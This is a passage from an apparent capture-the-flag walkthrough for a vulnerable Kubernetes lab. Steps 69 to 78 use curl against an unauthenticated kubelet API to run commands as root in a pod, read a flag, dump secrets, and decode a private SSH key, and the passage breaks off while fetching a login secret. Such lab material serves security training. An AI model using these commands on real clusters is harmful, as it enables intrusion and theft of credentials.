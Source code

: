 69. We received an error, because there's no shell in that container. Let's try doing the same on the `dev-web` container:

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=id"
    ```

70. That's more like it! We see that we can run commands in that pod and that they run as `root`! Let's look for a flag.

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=ls -l /"
    ```

71. Let's check out that flag:

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=cat /FLAG-3.txt"
    ```

72. Get that SSH key! It's stored as a secret available only to dev-pod's service account. First, list the dev namespace's secrets.

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=kubectl get secrets"
    ```

73. Now, request a copy of the `ssh-key` secret.

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=kubectl get secret ssh-key -o yaml"
    ```

74. The base64-encoded secret is in there. Let's put it into a file called `ssh.secret`:

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=kubectl get secret ssh-key -o yaml" >ssh.secret
    ```

75. Now let's parse that file, pulling the `bustakube-ssh-key:` line, getting just the second part of the line, and `base64` decoding it:

    ```shell
    cat ssh.secret | grep " bustakube-ssh-key:" | awk '{print $2}' | base64 -d
    ```

76. Congratulations! You've got the private SSH key! Let's see what that other secret was, the one called `mainframe-login`.

77. Request the `mainframe-login` secret:

    ```shell
    curl -ks https://10.23.58.40:10250/run/dev/dev-pod/dev-web/ -d "cmd=kubectl get secret mainframe-login -o yaml"
    ```

78. Now store it in a file we can parse:
